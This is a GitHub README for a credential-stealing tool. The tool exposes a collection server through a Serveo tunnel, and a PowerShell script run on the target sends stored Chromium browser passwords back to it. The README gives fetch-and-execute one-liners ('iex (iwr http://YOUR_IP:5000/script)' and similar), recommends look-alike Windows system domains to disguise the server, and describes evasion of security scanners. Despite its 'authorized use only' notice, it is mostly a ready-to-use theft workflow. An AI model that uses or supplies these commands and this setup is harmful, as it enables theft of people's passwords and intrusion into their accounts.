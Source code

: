 # Browser Credential Collector

A tool designed to securely collect and decrypt stored browser credentials from remote systems. This tool helps security professionals and system administrators assess password security and demonstrate how easily browser-stored credentials can be retrieved.

1. It will connect to a serveo tunnel allowing it to be accessable via the internet
2. Customizes a unique useragent per user request to ensure it isn't spammed
3. Decrypts the passwords locally
4. Every time you re-run the script it will get you a new Serveo URL such as https://28t8t8hgjh832h8hhoigi242ogn.serveo.net but the same one can be used many times until you stop the script from running.

   If you have a custom domain, consider something like WindowsSys.Tools - this way you can create a catch all subdomain and customize it per engagement.

```
iex (iwr WindowsSys.Tools)
iex (iwr System32.Windows.Sys.Tools)
```
## 🚨 Important Notice

This tool is intended for **AUTHORIZED USE ONLY**. Always obtain proper permissions before using on any system. Unauthorized use against systems you don't own or have explicit permission to test is illegal and unethical. Red team engagements and rubber duckies work awesome with this.

## 🔑 Features

- Securely collects stored browser credentials
- Automatically decrypts passwords using browser encryption keys
- Real-time monitoring dashboard
- Secure token-based authentication
- Protection against scanning and unauthorized access
- Public access via Serveo tunneling (optional)
- Rate limiting to prevent abuse

## 📋 Requirements

- Python 3.6+
- OpenSSH client (for Serveo tunneling)
- PyCryptodome (optional, for better decryption support)

## 💻 Quick Start

1. **Clone the repository**

```bash
git clone https://github.com/pentestfunctions/chromium_passwords_local_collection.git
cd chromium_passwords_local_collection
```

2. **Install optional dependencies**

```bash
pip install pycryptodome
```

3. **Run the server**

```bash
python3 credential_collector.py
```

4. **Execute the PowerShell script on target system**

```powershell
# Run this on the target machine
iex (iwr http://YOUR_IP:5000/script)
```

If you're using Serveo tunneling, the URL will be displayed in the console.

## 📚 How It Works

1. The server runs on your machine and generates unique tokens
2. When a target accesses the `/script` endpoint, they receive a customized PowerShell script with a unique token
3. The PowerShell script extracts stored browser credentials and securely sends them back to the server
4. The server decrypts and stores the credentials
5. All activity is monitored in real-time through the console dashboard

## 🔒 Security Features

- One-time tokens for script authentication
- Rate limiting to prevent abuse
- Scanner detection to block common vulnerability scanners
- IP blocking for suspicious activity
- All credentials stored locally in JSON format

## 📊 Understanding the Dashboard

The dashboard shows:
- Server information (local and public URLs)
- Collection statistics (credentials collected, success rates)
- Recent events
- Tunnel status (if using Serveo)
- List of collected credential files
- Blocked IPs

## ❓ Troubleshooting

**Error: "pycryptodome not found"**
- Install with: `pip install pycryptodome`

**Can't establish Serveo tunnel**
- Make sure SSH is installed and can connect to external services
- Try running with `--no-serveo` to use local network only

**No credentials collected**
- Verify the target system has Chrome/Chromium-based browsers installed
- Check that the PowerShell script is running with sufficient permissions
